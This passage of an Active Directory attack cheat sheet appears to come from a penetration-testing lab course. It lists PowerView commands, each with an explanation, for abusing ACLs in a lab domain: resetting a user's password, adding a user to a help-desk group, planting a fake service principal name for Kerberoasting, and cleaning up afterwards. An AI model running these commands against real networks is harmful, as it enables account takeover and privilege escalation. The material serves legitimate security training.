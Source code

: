 | `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)`                                                                                                                         | Used to create a `PSCredential Object` from a Windows-based host.                                                                                                                                                                                                    |
| `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force`                                                                                                                                                                                                                     | Used to create a `SecureString Object` from a Windows-based host.                                                                                                                                                                                                    |
| `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`                                                                                                                                                                                            | PowerView tool used to change the password of a specifc user (`damundsen`) on a target Windows domain from a Windows-based host.                                                                                                                                     |
| `Get-ADGroup -Identity "Help Desk Level 1" -Properties * \| Select -ExpandProperty Members`                                                                                                                                                                                                            | PowerView tool used view the members of a target security group (`Help Desk Level 1`) from a Windows-based host.                                                                                                                                                     |
| `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`                                                                                                                                                                                                 | PowerView tool used to add a specifc user (`damundsen`) to a specific security group (`Help Desk Level 1`) in a target Windows domain from a Windows-based host.                                                                                                     |
| `Get-DomainGroupMember -Identity "Help Desk Level 1" \| Select MemberName`                                                                                                                                                                                                                             | PowerView tool used to view the members of a specific security group (`Help Desk Level 1`) and output only the username of each member (`Select MemberName`) of the group from a Windows-based host.                                                                 |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`                                                                                                                                                                                         | PowerView tool used create a fake `Service Principal Name` given a sepecift user (`adunn`) from a Windows-based host.                                                                                                                                                |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose`                                                                                                                                                                                                             | PowerView tool used to remove the fake `Service Principal Name` created during the attack from a Windows-based host.                                                                                                                                                 |
| `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose`                                                                                                                                                                                              | PowerView tool used to remove a specific user (`damundsent`) from a specific security group (`Help Desk Level 1`) from a Windows-based host.                                                                                                                         |
| `ConvertFrom-SddlString`                                                                                                                                                                                                                                                                               | PowerShell cmd-let used to covert an `SDDL string` into a readable format. Performed from a Windows-based host.                                                                                                                                                      |

## DCSync
